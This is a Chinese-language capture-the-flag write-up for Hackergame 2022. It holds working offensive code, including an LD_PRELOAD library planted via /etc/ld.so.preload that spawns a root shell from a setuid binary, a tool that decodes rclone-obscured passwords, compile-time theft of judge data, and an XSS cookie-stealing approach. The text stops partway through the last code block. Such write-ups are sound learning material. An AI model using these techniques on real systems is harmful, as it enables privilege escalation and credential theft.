





# CSL 个人题解

> 同步发布于[我的 blog](https://blog.cubercsl.site/post/hackergame-2022-write-ups/)

最终排名：23


## 签到

可以发现数字识别结果就是通过 query 参数 `result` 传递的，所以直接地址栏把查询改成 `?result=2022` 后提交即可获得 flag 。

## 猫咪问答喵

1. 搜索 `NEBULA 战队成立于`，第一篇[新闻稿](https://cybersec.ustc.edu.cn/2022/0826/c23847a565848/page.htm) 里有提到。
2. 可以在 [这里](https://lug.ustc.edu.cn/wiki/lug/events/sfd/) 找到整个活动的 slide 和录像。slide 截图中的关键词可以看出这像一个视频剪辑软件，再去搜索 KDE 中的视频剪辑软件即得到答案。
3. 搜索 `Last version of fireFox to work on Windows 2000`。
4. 在 Github 中的 torvalds/linux.git 搜索 `CVE-2021-4034`，只有[一个结果](https://github.com/torvalds/linux/commit/dcd46d897adb70d63e025f175a00a89797d31a43)。
5. 搜索 `"e4:ff:65:d7:be:5d:c8:44:1d:89:6b:50:f5:50:a0:ce"` （注意引号才能全文匹配），得到[这个页面](https://docs.zeek.org/en/master/logs/ssh.html)。  
   从文档中可以找到目标 IP 为 `205.166.94.16`，反向 DNS 查询 PTR 记录得到答案。
6. 去 [这个网站](https://ustcnet.ustc.edu.cn) 找中科大的网字文件。发现“网络通”是在[这个文件](https://ustcnet.ustc.edu.cn/2006/0613/c11109a210860/page.htm) 中通知启用的。

> **花絮**  
> 第 6 问最开始搜到的大部分结果都是[这个文件](https://ustcnet.ustc.edu.cn/2010/1210/c11109a210869/page.htm)的文字稿，便以为网络通就是这个通知时启用的。  
> 后来在这个文件附件中发现，网络通服务的费用分担并没有发生变化。也就是说，网络通并不是在 2011 年 1 月 1 日才启用的。

## 家目录里的秘密

### VS Code 里的 flag

`grep -r flag{` 即可得到 VSCode 中的 flag。

### Rclone 里的 flag

学习 rlone 的[文档](https://rclone.org/commands/rclone_obscure/)，可以知道配置文件中的 `pass` 为了防止意外打开文件而看到明文密码而特意没有使用明文，没有真正意义上的加密。  
这串文本可以通过 `echo "secretpassword" | rclone obscure -` 生成。  
具体实现可以通过查看 rlone 的[源代码](https://github.com/rclone/rclone/blob/master/fs/config/obscure/obscure.go)得知。

虽然没有提供命令行接口来解出明文，但它在连接服务器时肯定是用来作为登录凭据。  
从代码中可以找到这个解密的函数，写一个命令行接口的就能自己解出明文就能得到 flag。

<details>
<summary>代码</summary>

```go
// Copyright (C) 2012 by Nick Craig-Wood http://www.craig-wood.com/nick/

// Permission is hereby granted, free of charge, to any person obtaining a copy
// of this software and associated documentation files (the "Software"), to deal
// in the Software without restriction, including without limitation the rights
// to use, copy, modify, merge, publish, distribute, sublicense, and/or sell
// copies of the Software, and to permit persons to whom the Software is
// furnished to do so, subject to the following conditions:

// The above copyright notice and this permission notice shall be included in
// all copies or substantial portions of the Software.

// THE SOFTWARE IS PROVIDED "AS IS", WITHOUT WARRANTY OF ANY KIND, EXPRESS OR
// IMPLIED, INCLUDING BUT NOT LIMITED TO THE WARRANTIES OF MERCHANTABILITY,
// FITNESS FOR A PARTICULAR PURPOSE AND NONINFRINGEMENT. IN NO EVENT SHALL THE
// AUTHORS OR COPYRIGHT HOLDERS BE LIABLE FOR ANY CLAIM, DAMAGES OR OTHER
// LIABILITY, WHETHER IN AN ACTION OF CONTRACT, TORT OR OTHERWISE, ARISING FROM,
// OUT OF OR IN CONNECTION WITH THE SOFTWARE OR THE USE OR OTHER DEALINGS IN
// THE SOFTWARE.

package main

import (
    "bufio"
    "crypto/aes"
    "crypto/cipher"
    "crypto/rand"
    "encoding/base64"
    "errors"
    "fmt"
    "log"
    "os"
)

// crypt internals
var (
    cryptKey = []byte{
        0x9c, 0x93, 0x5b, 0x48, 0x73, 0x0a, 0x55, 0x4d,
        0x6b, 0xfd, 0x7c, 0x63, 0xc8, 0x86, 0xa9, 0x2b,
        0xd3, 0x90, 0x19, 0x8e, 0xb8, 0x12, 0x8a, 0xfb,
        0xf4, 0xde, 0x16, 0x2b, 0x8b, 0x95, 0xf6, 0x38,
    }
    cryptBlock cipher.Block
    cryptRand  = rand.Reader
)

// crypt transforms in to out using iv under AES-CTR.
//
// in and out may be the same buffer.
//
// Note encryption and decryption are the same operation
func crypt(out, in, iv []byte) error {
    if cryptBlock == nil {
        var err error
        cryptBlock, err = aes.NewCipher(cryptKey)
        if err != nil {
            return err
        }
    }
    stream := cipher.NewCTR(cryptBlock, iv)
    stream.XORKeyStream(out, in)
    return nil
}

// Reveal an obscured value
func Reveal(x string) (string, error) {
    ciphertext, err := base64.RawURLEncoding.DecodeString(x)
    if err != nil {
        return "", fmt.Errorf("base64 decode failed when revealing password - is it obscured?: %w", err)
    }
    if len(ciphertext) < aes.BlockSize {
        return "", errors.New("input too short when revealing password - is it obscured?")
    }
    buf := ciphertext[aes.BlockSize:]
    iv := ciphertext[:aes.BlockSize]
    if err := crypt(buf, buf, iv); err != nil {
        return "", fmt.Errorf("decrypt failed when revealing password - is it obscured?: %w", err)
    }
    return string(buf), nil
}

// MustReveal reveals an obscured value, exiting with a fatal error if it failed
func MustReveal(x string) string {
    out, err := Reveal(x)
    if err != nil {
        log.Fatalf("Reveal failed: %v", err)
    }
    return out
}

func main() {
    fi, _ := os.Stdin.Stat()
    var obfuscated string
    if os.Args[1] == "-" && (fi.Mode()&os.ModeCharDevice) == 0 {
        scanner := bufio.NewScanner(os.Stdin)
        if scanner.Scan() {
            obfuscated = scanner.Text()
        }
        if err := scanner.Err(); err != nil {
            log.Fatal(err)
        }
    } else {
        obfuscated = os.Args[1]
    }
    // Reveal the password
    revealed := MustReveal(obfuscated)
    fmt.Println(revealed)
}
```

</details>

## HeiLang

把题目中的 python 代码改成正确的语意。

<details>
<summary>代码</summary>

```python
#!/usr/bin/env python3
from hashlib import sha256

a = [0] * 10000
s='''
# Omit the code .....
'''
for line in s.strip().split('\n'):
    items = line[line.find('['):line.find(']')]
    num = int(line[line.find('=') + 1:].strip())
    for item in items.split('|'):
        a[int(item.strip())] = num
```

</details>

## Xcaptcha

从请求历史中可以发现每次的验证码是不一样的，而且必须要 1 秒内解决，超时和计算结果错误都是无法通过的。~~所以只要真的 1 秒做出来就行了呗。~~

根据我很久以前比赛抢报名自动填表单的经验，使用 [Tampermonkey](https://www.tampermonkey.net/) 写一个 userscript 一秒填写表单得到 flag 。

<details>
<summary>代码</summary>


```javascript
// ==UserScript==
// @name         Userscript
// @namespace    http://tampermonkey.net/
// @version      0.1
// @description  auto complete xcaptcha
// @author       cubercsl
// @match        http://202.38.93.111:10047/xcaptcha
// @icon         https://www.google.com/s2/favicons?sz=64&domain=tampermonkey.net
// @grant        CC-BY-NC-SA-4.0
// ==/UserScript==

(function() {
    'use strict';
    for (var i = 0; i < 3; i++) {
        var expr = document.getElementsByTagName("label")[i].innerHTML;
        expr = expr.substring(0, expr.lastIndexOf(' '));
        var item = expr.split('+');
        document.getElementById("captcha" + (i + 1)).value = BigInt(item[0]) + BigInt(item[1]);
    }
    document.getElementById('submit').click();
})();
```

</details>

## 旅行照片 2.0

### 照片分析

由于给的是原图，所以很容易想到看 EXIF 信息，题目中也给了相应的提示。  
使用正确方式打开原图就能得到全套 EXIF 信息。

### 社工入门

- 根据照片中球场的标语，搜索关键词得知其为千叶海洋球场（Zozo Marine Stadium）；拍摄地点位于边上的一个酒店，地图中搜索得到邮编。
- 根据 EXIF 信息中的照相机信息 `sm6115 (juice)`，搜索得到手机具体型号为 `Xiaomi Redmi 9 Power`，从任意网店即可得到分辨率。
- 航班信息可以根据拍摄时间，在 [flightradar24](https://www.flightradar24.com/) 上免费试用一周黄金会员订阅，就可以回看到那个时间点经过照片上空的飞机的具体信息。~~记得取消订阅。~~


## 猜数字

观察代码，发现随机是密码学安全的，应该不能爆出种子。但是再仔细观察程序中判断猜对的方式为：

```java
var isLess = guess < this.number - 1e-6 / 2;
var isMore = guess > this.number + 1e-6 / 2;

var isPassed = !isLess && !isMore;
```

那满足条件的数除了在精度范围内的浮点数外还可以是 `NaN`。

所以只需要想个办法绕过前端的验证，猜一个 `NaN` 就可以一次“猜对”了。  
一种可以绕过前端验证的方式是把 `submit` 按钮里面的 `disabled` 给干掉，就能什么都不输入就提交了。

## 安全的在线测评

### 无法 AC 的题目

观察 OJ 评测的代码，可以发现在运行时使用了另一个用户来保证运行的程序无法读取到评测数据和答案，但在编译时没有这样的限制。  
在代码中 `#include "../data/static.out"` 制造编译错误来得到这个文件的内容。  
不过这个文件有两行，我没有办法从编译错误的信息拿到文件第二行的内容。  
根据题意，可以再用同样的方法读取 `static.in` 中的内容，这样就可以推出答案的第二行了。

### 动态数据

直接从编译错误里看是行不通了，而且运行时肯定也是无法读到数据的，只能在编译阶段把数据偷到代码里。  
尝试了好多方法基于 `#include` 的方法都不行，最后在[C++怎么把任意文本文件include成全局字符数组？—— Max Xing 的回答](https://www.zhihu.com/question/431645051/answer/1826562458)里找到了一个可行的方式。

<details>
<summary>代码</summary>


```c
// SPDX-License-Identifier: CC-BY-NC-SA-4.0

#include <stdio.h>
#include <string.h>

#define EMBED_STR(name, path)                \
  extern const char name[];                  \
  asm(".section .rodata, \"a\", @progbits\n" \
      #name ":\n"                            \
      ".incbin \"" path "\"\n"               \
      ".byte 0\n"                            \
      ".previous\n");

EMBED_STR(static_in,   "./data/static.in");
EMBED_STR(dynamic0_in, "./data/dynamic0.in");
EMBED_STR(dynamic1_in, "./data/dynamic1.in");
EMBED_STR(dynamic2_in, "./data/dynamic2.in");
EMBED_STR(dynamic3_in, "./data/dynamic3.in");
EMBED_STR(dynamic4_in, "./data/dynamic4.in");

EMBED_STR(static_out,   "./data/static.out");
EMBED_STR(dynamic0_out, "./data/dynamic0.out");
EMBED_STR(dynamic1_out, "./data/dynamic1.out");
EMBED_STR(dynamic2_out, "./data/dynamic2.out");
EMBED_STR(dynamic3_out, "./data/dynamic3.out");
EMBED_STR(dynamic4_out, "./data/dynamic4.out");

#define CHECK(buffer, input, output)        \
    do {                                    \
        if (!strcmp(buffer, input)) {       \
            puts(output);                   \
        }                                   \
    } while(0)

char buf[1024];

int main() {
    fgets(buf, 1024, stdin);
    CHECK(buf, static_in, static_out);
    CHECK(buf, dynamic0_in, dynamic0_out);
    CHECK(buf, dynamic1_in, dynamic1_out);
    CHECK(buf, dynamic2_in, dynamic2_out);
    CHECK(buf, dynamic3_in, dynamic3_out);
    CHECK(buf, dynamic4_in, dynamic4_out);
}
```

</details>

## Latex 机器人

### 纯文本

直接 `\input{/flag1}` 自行补足缺失的 `{` 和 `}` 得到 flag。

### 特殊字符混入

对于有特殊字符 `#` 和 `_`，直接 `\input` 会编译错误。  
根据[这个页面](https://en.wikibooks.org/wiki/TeX/catcode)的说法，可以用 ``\catcode`\#=11`` 和 ``\catcode`\_=11`` 来避免。

## Flag 的痕迹

找一个官方的 doku wiki 的实例研究，随便找几个可能能看到历史的地方点点，发现在[比较两个版本的差异的页面](https://www.dokuwiki.org/changes?rev=1662565380&do=diff)，地址栏有 `?do=diff`。  
经过验证，在这里可以绕过无法查看历史版本的限制。

## 线路板

用合适的工具打开附件，发现与 flag 相关的图层在 `ebaz_sdr-F_Cu.gbr` 文件中，不过 flag 被若干圆形挡住了。  
数一下圆形的数量，发现是 18 个，用文本编辑器打开找到符合特征的上下文并把对应行删除，然后重新打开这个文件就能看到 flag。

 

## Flag 自动机

打开这个程序玩了一会儿。~~笑死，发现按钮根本点不到。~~  
尝试把窗口缩到很小，看看随机移动的按钮能不能只在窗口范围内随机，强行点到，发现也不行。  
尝试用 win32api 直接对着按钮的句柄发送点击事件，然后得到提示框说我不是“超级管理员”。  
反汇编后定位到弹出这段消息的代码，发现有一处奇怪的跳转，在它的附近有个 `Congratulations`，并打开 `flag_machine.txt` 写入 flag 的步骤。  
稍加分析后猜测这是在给父窗口传递按钮点击事件时调用到的。  
Msg `0x111` 是 [WM_COMMAND](https://learn.microsoft.com/en-us/windows/win32/menurc/wm-command)；`arg_8` 是在判断按钮点击事件所点击的按钮，“狠心夺取” 对应 `3`。  
最后会判断一个特别的的参数 `lParam`，需要设成 `0x1bf52` （怎么是 `114514`）才能正确跳转。




构造对应的消息发送给主窗口即可得到 flag 。

<details>
<summary>代码</summary>


```python
# SPDX-License-Identifier: CC-BY-NC-SA-4.0

import win32con
import win32gui
hwnd = win32gui.FindWindow(None, "flag 自动机")
win32gui.SendMessage(
    hwnd,                           # hWnd
    win32con.WM_COMMAND,            # Msg
    win32con.BN_CLICKED << 16 | 3,  # wParam
    0x1bf52                         # lParam
)
```

</details>

> **花絮**  
> 最开始我还尝试直接修改程序二进制中的某个字节，尝试将 `jz` 改为 `jnz`，但这样是不行的。  
> 似乎强行跳转至 `Congratulations` 分支后 `lParam` 仍然被用到了，也可能是我的操作不太对。

## 微积分计算小练习

做一遍练习，拿了 100 分，~~然而其实并没有什么用~~。  
发现分享链接上面的 `share?result=MTAwOkNTTA==` 有点像 base64 后的内容。解码后发现是 `100:CSL`。  
直接把这个链接提交肯定无法拿到 flag，提交一个 0 分的链接和一个 100 分的链接，都是输出网页上的结果后就退出了。  
读完 bot 代码，可以发现 flag 被放在 `document.cookie` 中，需要用一个 XSS 来偷 cookie 的内容在页面上展示。

可以用经典的 `img` `onerror` 来 XSS。 一个可行 payload 是：

```html
""
```

和 `:CSL` 拼接后 base64 作为 `result` 参数提交可得到 flag 。

## 杯窗鹅影

通过 `explorer.exe` 可以发现，即便是没有设置 `Z:\` 的映射，也能从一个 `/` 的驱动器能看到。点击后再去地址栏可以看到地址为 `\\?\unix`。  
用 C 语言写一个程序打开并读取 `\\?\unix\flag1` 后输出得到 flag。  



既然都能目录穿越了， `execve` 调 `\\?\unix\readflag` 就能拿到另一个了。

<details>
<summary>flag1 代码</summary>


```c
// SPDX-License-Identifier: CC-BY-NC-SA-4.0

#include <stdio.h>

int main() {
    FILE *fp = fopen("\\\\?\\unix\\flag1", "r");
    char buf[256];
    fgets(buf, 256, (FILE*)fp);
    puts(buf);
    fclose(fp);
}
```

</details>
<details>
<summary>flag2 代码</summary>


```c
// SPDX-License-Identifier: CC-BY-NC-SA-4.0

#include <unistd.h>

int main() {
    char *argv[] = {"\\\\?\\unix\\readflag", 0};
    execve(argv[0], NULL, NULL);
}
```

</details>

## 蒙特卡罗轮盘赌

发现交互时使用的种子是 `time(0) + clock()`，前者是当前时间戳，后者几乎在 $1000$ 到 $2000$ 之间。  
所以在某个时间段内可能的使用的种子是十分有限的。  
将下发的代码稍作修改，枚举当前时间开始的足量的种子（实战中我使用了 $1000$ 到 $10000$），并输出前两次蒙特卡罗的结果。  
正式交互时，考虑先让两局，根据前两局反馈的正确答案从之前保存的结果中找到这次生成所使用的种子，这样就几乎能保证后三次是正确的了。

<details>
<summary>代码</summary>

```cpp
// SPDX-License-Identifier: CC-BY-NC-SA-4.0

#include <stdio.h>
#include <stdlib.h>
#include <time.h>
#include <string.h>

double rand01() {
    return (double)rand() / RAND_MAX;
}

int test(int seed) {
    printf("seed: %d ->", seed);
    srand(seed);
    int games = 2;
    int win = 0;
    int lose = 0;
    for (int i = games; i > 0; i--) {
        int M = 0;
        int N = 400000;
        for (int j = 0; j < N; j++) {
            double x = rand01();
            double y = rand01();
            if (x*x + y*y < 1) M++;
        }
        double pi = (double)M / N * 4;
        printf(" %1.5f", pi);
    }
    puts("");
}

int main() {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);
    setvbuf(stderr, NULL, _IONBF, 0);
    int x = time(0); 
    for (int i = x + 1000; i < x + 10000; i++) {
        test(i);
    }
}
```

</details>

## 惜字如金

### HS384

先尝试运行给的辅助签名小程序。~~笑死，根本跑不起来。~~  
根据常识把一些显然被去掉的字符补上，最后发现有两处无法直接还原。  
分别是签名用的私钥（长度和程序中的断言不符）和私钥的 sha384 （和标准的 sha384 结果长度不同）。  
DFS 搜出私钥被惜字如金化前情况，爆破出来即可完成签名。

<details>
<summary>求解代码</summary>

```python
# SPDX-License-Identifier: CC-BY-NC-SA-4.0

import re

from hashlib import sha384
from hmac import digest

pat = re.compile(r'^ec+e?18f+9d+')

def dfs(s, result):
    if (len(result) > 39):
        return
    if not s:
        if len(result) == 39:
            result_sha384 =sha384(result.encode('utf-8')).hexdigest()
            if pat.match(result_sha384):
                print(result, result_sha384)
        return
    if s[0] in 'aeiou.':
        dfs(s[1:], result + s[0])
    elif s[0] == '?':
        dfs(s[1:], result + 'e')
        dfs(s[1:], result)
    else:
        for i in range(1, 40):
            if len(result) + i > 39:
                break
            dfs(s[1:], result + s[0] * i)

dfs('ustc?.edu.cn?', '')
```

</details>

<details>
<summary>签名代码</summary>

```python
#!/usr/bin/python3
# SPDX-License-Identifier: CC-BY-NC-SA-4.0

# The size of the file may reduce after XZRJification

from base64 import urlsafe_b64encode
from hashlib import sha384
from hmac import digest
from sys import argv


def check_equals(left, right):
    # check whether left == right or not
    if left != right: raise Exception(f'check_euqals fail {left} != {right}')


def sign(file: str):
    with open(file, 'rb') as f:
        # import secret
        # secret = b'ustc.edu.cn'
        secret = b'usssttttttce.edddddu.ccccccnnnnnnnnnnnn'
        check_equals(len(secret), 39)
        # check secret hash
        # secret_sha384 = 'ec18f9dbc4aba825c7d4f9c726db1cb0d0babf47f' +\
        #                 'a170f33d53bc62074271866a4e4d1325dc27f644fdad'
        secret_sha384 = 'eccc18f9dbbc4aba825c7d4f9cccce726db1cb0d0babffe47f' + \
                        'a170fe33d53bc62074271866a4e4d1325dc27f644fddad'
        check_equals(sha384(secret).hexdigest(), secret_sha384)
        # generate the signature
        return digest(secret, f.read(), sha384)


if __name__ == '__main__':
    try:
        # check some obvious things
        check_equals('create', 'cre' + 'ate')
        check_equals('referrer', 'refer' + 'rer')
        # generate the signature
        check_equals(len(argv), 2)
        sign_b64 = urlsafe_b64encode(sign(argv[1]))
        print('HS384 sign:', sign_b64.decode('utf-8'))
    except (SystemExit, Exception) as e:
        print(e)
        print('Usag' + 'e: HS384.py <fil' + 'e>')
```

</details>

## 置换魔群

> **花絮**  
> 前 XCPC 选手狂喜。  
> 最开始我是一个一个复制粘贴手做的，后来发现总是会在某些特别大的数据上报错，才知道终端单次输入有 4096 字节的限制，需要用程序交互。  
> 在实战用我使用的是 `pwntools` 来连接环境并进行交互的。下面的代码均省略交互步骤。

### 置换群上的 RSA

根据 RSA 算法的计算方式 $n = c^d = n^{ed}$ ，其中 $n$ 为明文置换群 ，$c$ 为密文置换群。$e$ 是公钥，$d$ 是私钥。所以应该有 $ed \equiv 1 \bmod \text{ord}(n)$。使用扩展欧几里德求逆元即可。

<details>
<summary>代码</summary>

```python
# SPDX-License-Identifier: CC-BY-NC-SA-4.0

def exgcd(a, b):
    if a == 0:
        return (b, 0, 1)
    g, y, x = exgcd(b % a, a)
    return (g, x - (b // a) * y, y)


def modinv(a, m):
    g, x, y = exgcd(a, m)
    if g != 1:
        raise Exception('modular inverse does not exist')
    else:
        return x % m


def solve(c, e):
    d = modinv(e, c.order())
    n = c ** d
    return n
```

</details>

### 置换群上的 DH

考虑置换 $g$ 标准分解中的每一个轮换。对于轮换，与其对应在 $y$ 中元素构成的置换的离散对数是容易求得的，稍微倒一倒下标就行，具体参考代码的实现。  
这样整个置换的离散对数就相当于求解模线性方程组，使用中国剩余定理求解。

<details>
<summary>代码</summary>


```python
# SPDX-License-Identifier: CC-BY-NC-SA-4.0

def excrt(r, m):
    mo, re = m[0], r[0]
    n = len(r)
    for i in range(1, n):
        (d, x, y) = exgcd(mo, m[i])
        if ((r[i] - re) % d) != 0:
            raise Exception("solution does not exist")
        x = (r[i] - re) // d * x % (m[i] // d)
        re += x * mo
        mo = (mo // d) * m[i]
        re = re % mo
    re = (re + mo) % mo
    return re, mo


def solve(g, y):
    r, m = [], []
    for item in g.standard_tuple:
        if len(item) == 1: continue
        idx = item[0] - 1
        distance = item.index(y.permutation_list[idx])
        r.append(distance)
        m.append(len(item))
    ans, _ = excrt(r, m)
    return ans
```

</details>

### 置换群上的超大离散对数

需要给出两个阶数较大的生成元 $g$，同上一题一样，分别通过返回的 $y$ 计算出私钥在对应阶数下的余数后使用中国剩余定理求出私钥。  
于是需要构造两个长度为 $n$ 的置换，使得它们的阶的最小公倍数尽可能大。显然需要贪心地把不同的素数（和 $1$）或素数的次幂长度的轮换放在不同的置换里。  
考虑 DP，令 $f(i, s_1, s_2)$ 表示考虑前 $i$ 个素数，两个置换的元素个数分别为 $s_1$ 和 $s_2$ 时的最大阶。不失一般性，不妨设 $s_1 \geq s_2$。
转移如下：

$$
f(i, s_1, s_2) = \max\left(
\begin{align*}
& f(i - 1, s_1 - p_i^k, s_2) \times p_i^k \\\\
& f(i - 1, s_1, s_2 - p_i^k) \times  p_i^k  \\\\
& f(i - 1, s_1, s_2)
\end{align*}
\right)
$$

由于乘积会很大，实现的时候可以考虑取对数变加法，即令 $g(i, s_1, s_2) = \ln f(i, s_1, s_2)$ 则转移变成：

$$
g(i, s_1, s_2) = \max\left(
\begin{align*}
& g(i - 1, s_1 - p_i^k, s_2) + k \ln(p_i) \\\\
& g(i - 1, s_1, s_2 - p_i^k) + k \ln(p_i)  \\\\
& g(i - 1, s_1, s_2)
\end{align*}
\right)
$$

这样跑一次要跑挺久的，但是实际上多组数据的情况下只需要预处理一次就行。  
最终求解时，只需要根据 DP 的结果还原得到两次给出的置换的标准分解中的每个轮换的长度，并构造出对应的置换。后面的做法就和上一题大同小异了。

<details>
<summary>预处理代码</summary>


```python
# SPDX-License-Identifier: CC-BY-NC-SA-4.0

import numpy as np

from math import log

def init(n=1800):
    prime = [1, 2, 3, 5, 7, ...]
    total = len(prime)
    dp = np.zeros((total + 1, n + 1, n + 1))
    ch = np.zeros((total + 1, n + 1, n + 1), dtype=np.int32)
    dp[0, 0, 0] = 1
    for idx, p in enumerate(prime[::-1]):
        print(idx, end='\r')
        for i in range(n):
            for j in range(i + 1):
                if dp[idx, i, j] > 0:
                    if dp[idx + 1, i, j] < dp[idx, i, j]:
                        dp[idx + 1, i, j] = dp[idx, i, j]
                        ch[idx + 1, i, j] = 0
                    pk = p
                    while pk <= n:
                        cost = round(log(pk) * 10)
                        if i + pk <= n and dp[idx + 1, i + pk, j] < dp[idx, i, j] + cost:
                            dp[idx + 1, i + pk, j] = dp[idx, i, j] + cost
                            ch[idx + 1, i + pk, j] = pk
                        if j + pk <= i and dp[idx + 1, i, j + pk] < dp[idx, i, j] + cost:
                            dp[idx + 1, i, j + pk] = dp[idx, i, j] + cost
                            ch[idx + 1, i, j + pk] = -pk
                        pk *= p
                        if p == 1: break
    np.save('ch.npy', ch)
    np.save('dp.npy', dp)
```

</details>

<details>
<summary>求解代码</summary>


```python
# SPDX-License-Identifier: CC-BY-NC-SA-4.0

# load pre_initialized data first
# ch = np.load('ch.npy')
# dp = np.load('dp.npy')

def make_gererator(std_len, n):
    st, result = 1, []
    for item in std_len:
        for i in range(1, item):
            result.append(st + i)
        result.append(st)
        st += item
    return result


def gen(n):
    std1, std2 = [], []
    maxk, maxv = None, 0
    for i in range(1, n):
        for j in range(1, i + 1):
            if dp[total, i, j] > maxv:
                maxv = dp[total, i, j]
                maxk = (i, j)
    cur = (total, *maxk)
    while cur != (0, 0, 0):
        idx, i, j = *cur
        v = pre[idx, i, j]
        if v == 0:
            cur = (idx - 1, i, j)
        if v > 0:
            cur = (idx - 1, i - v, j)
            std1.append(v)
        if v < 0:
            cur = (idx - 1, i, j + v)
            std2.append(-v)
    return make_generator(std1, n), make_generator(std2, n)


def solve_plus(g1, y1, g2, y2):
    r1, m1 = solve(g1, y1)
    r2, m2 = solve(g2, y2)
    ans, _ = excrt([r1, r2], [m1, m2])
    return ans
```

</details>

## 光与影

打开发现图中的 flag 被一个矩形挡住了，于是 F12 看代码。  
发现在 `fragment-shader.js` 中有一段比较可疑的：

```cpp
float sceneSDF(vec3 p, out vec3 pColor) {
    pColor = vec3(1.0, 1.0, 1.0);
    
    vec4 pH = mk_homo(p);
    vec4 pTO = mk_trans(35.0, -5.0, -20.0) * mk_scale(1.5, 1.5, 1.0) * pH;
    
    float t1 = t1SDF(pTO.xyz);
    float t2 = t2SDF((mk_trans(-45.0, 0.0, 0.0) * pTO).xyz);
    float t3 = t3SDF((mk_trans(-80.0, 0.0, 0.0) * pTO).xyz);
    float t4 = t4SDF((mk_trans(-106.0, 0.0, 0.0) * pTO).xyz);
    float t5 = t5SDF(p - vec3(36.0, 10.0, 15.0), vec3(30.0, 5.0, 5.0), 2.0);
    
    float tmin = min(min(min(min(t1, t2), t3), t4), t5);
    return tmin;
}
```

经过观察代码实现的逻辑和若干次修改代码的尝试，可以发现 `t1` 至 `t4` 是真正的 flag 内容，`t5` 是挡住视线的矩形。于是把 `t5` 删除后就能看到 flag。

> **花絮**  
> 由于[这个问题](https://bugs.chromium.org/p/chromium/issues/detail?id=1379542)，我的拖拉机电脑打开这题就直接卡死了，没办法在浏览器上直接改，~~改完也不知道改成什么了~~。于是把代码下载下来修改，本地用 python 启了一个 web 服务器，用手机看修改后的渲染结果。  

## 片上系统

### 引导扇区

用 PulseView 导入 `logic-1-1`，解码器选择 SD 卡的 SPI 模式。  
可以看到有数据出现，根据经验直接从数据中搜索 `0x66, 0x6c, 0x61, 0x67` 找到 flag。



## 传达不到的文件

> **Warning**  
> 这是一个非预期解。  
> 预期做法请参考[官方题解](https://github.com/USTC-Hackergame/hackergame2022-writeups/tree/master/official/传达不到的文件)。

进去随便玩一下，只有 `/chall` 这个文件有 `suid`，同时又发现系统里有 `/lib64/libc.so.6`。删掉 ~~（没想到居然能删）~~ 后运行 `/chall` 发现找不到动态链接库。得出结论：`chall` 是动态链接的程序，可以用 `LD_PRELOAD` 来劫持。根据 `ld.so(8)` 所描述：

```txt
       LD_PRELOAD

              ...

              In secure-execution mode, preload pathnames containing
              slashes are ignored.  Furthermore, shared objects are
              preloaded only from the standard search directories and
              only if they have set-user-ID mode bit enabled (which is
              not typical).
              
              ...
              
              There are various methods of specifying libraries to be
              preloaded, and these are handled in the following order:

              (1) The LD_PRELOAD environment variable.

              (2) The --preload command-line option when invoking the
                  dynamic linker directly.

              (3) The /etc/ld.so.preload file (described below).
```

具有 `suid` 权限的文件只能从标准搜索路径中载入，不会遵守环境变量 `LD_PRELOAD`，需要写在 `/etc/ld.so.preload` 中。非常幸运的是这个目录我也是可写的。

代码如下，使用 `gcc -fPIC -shared exp.c -o exp.so -nostartfiles` 编译。

```c
// SPDX-License-Identifier: CC-BY-NC-SA-4.0

#include <unistd.h>

void _init() {
    char *argv[] = {"/bin/sh", 0};
    setuid(0);
    execve(argv[0], NULL, NULL);
}
```

不过远程没有编译器怎么办？~~没关系，把本地编译的二进制手敲上去就好了。~~  
本地编译好以后打个 tar 包，在远程手敲 base64 编码。  
拿到 root shell 以后就想干啥干啥了，flag 买一送一。

```text
[    5.055613] Dev sda: unable to read RDB block 1
[    5.080151] Dev sda: unable to read RDB block 1
/ $ cat > b64.txt << EOF
base64-encoded content omitted...
EOF
/ $ base64 -d b64.txt > exp.tar.gz
/ $ tar -zxvf exp.tar.gz
exp.so
/ $ ./chall
Give me your FLAG or I'll EXIT!
FLAG:
/ $ echo "/exp.so" > /etc/ld.so.preload
/ $ ./chall
/ # id
uid=0 gid=1000 groups=1000
/ # strings ./chall | grep flag{
flag{omitted...}
/ # cat ./flag2
flag{omitted...}
```

## 看不见的彼方

看一遍被禁用的系统调用，发现消息队列 `msgget`, `megsnd` 等相关的系统调用没有禁止。  
所以直接用消息队列进行进程通信……

由于我用的 Arch Linux 带的 glibc 版本太高了 (2.36)，编译好的二进制提交上去没法执行。不过可以静态链接，大小也是够的。

<details>
<summary>代码</summary>


- **Alice**

```c
// SPDX-License-Identifier: CC-BY-NC-SA-4.0

#include <stdio.h>
#include <string.h>
#include <sys/msg.h>

#define BUFFER 255
struct msgtype {
    long mtype;
    char buf[BUFFER];
};

int main(int argc, char **argv) {
    int msgid = msgget((key_t)2022, 0666 | IPC_CREAT);
    struct msgtype msg;
    memset(&msg, 0, sizeof(struct msgtype));
    msg.mtype = 1;
    FILE* fp = fopen("/secret", "r");
    fscanf(fp, "%s", msg.buf);
    msgsnd(msgid, &msg, sizeof(struct msgtype) - sizeof(msg.mtype), 0);
    return 0;
}
```

- **Bob**

```c
// SPDX-License-Identifier: CC-BY-NC-SA-4.0

#include <stdio.h>
#include <string.h>
#include <sys/msg.h>

#define BUFFER 255
struct msgtype {
    long mtype;
    char buf[BUFFER];
};

int main(int argc, char **argv) {
    int msgid = msgget((key_t)2022, 0666 | IPC_CREAT);
    struct msgtype msg;
    memset(&msg, 0, sizeof(struct msgtype));
    msgrcv(msgid, &msg, sizeof(struct msgtype) - sizeof(msg.mtype), 1, 0);
    printf("%s\n", msg.buf);
    return 0;
}
```

</details>

## 量子藏宝图

对于第一幕，先去学习一遍 BB84 协议。只需要发送足够多的 `+` 和足够多的 `0` 作为制备基底和量子态，得到回复后数一下测量基底中 `+` 的个数，那么协商的密钥就是这么多个 `0`。

对于第二幕，把生成的量子电路图下载下来后，根据题目中所述的文档的提示，用 python 把电路图画出来。后面的求值可以用 Qiskit 提交到 [IBM Q](https://quantum-computing.ibm.com/) 上面使用量子计算机来跑。最终得到一个 128 比特的结果后转换一下可得到 flag 。

<details>
<summary>代码</summary>


```python
# SPDX-License-Identifier: CC-BY-NC-SA-4.0

from qiskit import QuantumCircuit, assemble, transpile, IBMQ
from Qconfig import APItoken

qc = QuantumCircuit(129, 128)

for i in range(128):
    qc.h(i)

qc.x(128); qc.h(128); qc.barrier()

# Omit the code for drawing ......

qc.barrier()

for i in range(128):
    qc.h(i)
    qc.measure(i, i)

IBMQ.enable_account(APItoken)
backend = IBMQ.ibmq.providers()[0].get_backend('ibmq_qasm_simulator')

